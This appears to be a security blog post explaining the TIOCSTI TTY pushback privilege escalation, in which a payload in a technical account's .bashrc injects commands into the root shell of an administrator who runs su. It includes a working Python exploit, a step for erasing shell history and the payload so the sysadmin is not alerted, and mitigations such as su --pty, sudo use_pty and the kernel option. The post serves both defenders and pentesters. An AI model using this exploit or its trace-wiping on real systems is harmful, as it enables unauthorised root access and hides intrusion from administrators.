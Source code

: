 ```yaml
---
title: The oldest privesc&#58; injecting careless administrators' terminals using TTY pushback
---
```


This trick is possibly the oldest security bug that still exists today, it's been traced [as far back as 1985](https://web.archive.org/web/20031005121525/https://securitydigest.org/unix/archive/015).

It's been [discovered](https://www.openwall.com/lists/oss-security/2011/12/20/2) and [rediscovered](https://www.openwall.com/lists/oss-security/2012/11/05/8) and [re-rediscovered](https://seclists.org/oss-sec/2021/q4/43) by sysadmins, developpers and pentesters every few years for close to 4 decades now. It's been subject to [multiple](https://lore.kernel.org/kernel-hardening/1494450134.28559.2.camel@gmail.com/t/) [developper](https://lore.kernel.org/all/Y0m9l52AKmw6Yxi1@hostpad/) [battles](https://kernsec.org/pipermail/linux-security-module-archive/2017-May/001473.html), [countless](https://www.halfdog.net/Security/2012/TtyPushbackPrivilegeEscalation/) [posts](https://security.stackexchange.com/questions/136748/tty-push-back-priv-escalation), but still remains largely forgotten.

This is just another attempt at shedding light on it, for both attackers and defenders.


Why it works
============
The TIOCSTI ioctl can insert bytes in the tty's input queue. It is used to simulate terminal input.

When running ```su lowpriv_user```, by default no new pty is allocated:
![PTY stays the same](./TTYPushBack/pty_unchanged.PNG)

Therefore since we're still in the same pty, input can be sent directly *to the parent shell* to execute commands in its context.


Make it work
============
Consider this python sample and assume it's automatically being run at logon from the .bashrc of a technical account, such as postgres, to which the root user changes by typing ```su - postgres```:
```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

We're sending SIGSTOP to the lowpriv shell to get the focus back to its parent, the root shell.
Then sending the characters one by one using the TIOCSTI ioctl injects them into the root shell as if they were input manually, until '\n' is sent which executes the command.

![get root or go home](./TTYPushBack/root.PNG)

And that's it, you're now root. Devilishly simple.


Always sneaking stabbing
------------------------
Running the following command will attempt to wipe most of your traces and get back to the lowpriv shell:
```cmd = ' set +o history\n' + sys.argv[1] + '\nfg\nreset\n'```

You should also wipe your payload from the .bashrc file.

Hopefully this doesn't alert the sysadmin.


Protecting against it
=====================
From su's manpage:
```
   -P, --pty
   Create a pseudo-terminal for the session. The independent terminal provides better security as the user does not share a terminal with the original session. This can be used to avoid TIOCSTI ioctl
   terminal injection and other security attacks against terminal file descriptors. The entire session can also be moved to the background (e.g., su --pty - username -c application &). If the
   pseudo-terminal is enabled, then su works as a proxy between the sessions (sync stdin and stdout).

   This feature is mostly designed for interactive sessions. If the standard input is not a terminal, but for example a pipe (e.g., echo "date" | su --pty), then the ECHO flag for the pseudo-terminal
   is disabled to avoid messy output.
```

Here's the protection in action (```fg``` has been manually inputed to return to lowpriv's shell, notice how the command was "buffered" until we came back to it):
![PTY has changed](./TTYPushBack/pty_changed.PNG)

Note that RHEL7 does not have the option, whereas RHEL8 does.

Note that the ```su``` command is not the only one affected by the bug, it's a broader problem due to the ioctl itself. From the sudoers(3) manpage:
```
    use_pty
    If set, and sudo is running in a terminal, the command will be run in a pseudo-terminal (even if no I/O logging is being done).  If the sudo process is not attached to a terminal,
    use_pty has no effect.

    A malicious program run under sudo may be capable of injecting commands into the user's terminal or running a background process that retains access to the user's terminal device even
    after the main program has finished executing.  By running the command in a separate pseudo-terminal, this attack is no longer possible.  This flag is off by default.
```

The ioctl also has been restricted for a number of years in grsecurity, under the name GRKERNSEC_HARDEN_TTY (2016?).

The Linux kernel 6.2 also has introduced an [optional mechanism](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04) to protect against it.

Things are moving, albeit slowly, and are not defaults yet. This privesc will still be valid for the foreseeable future, don't forget it this time!

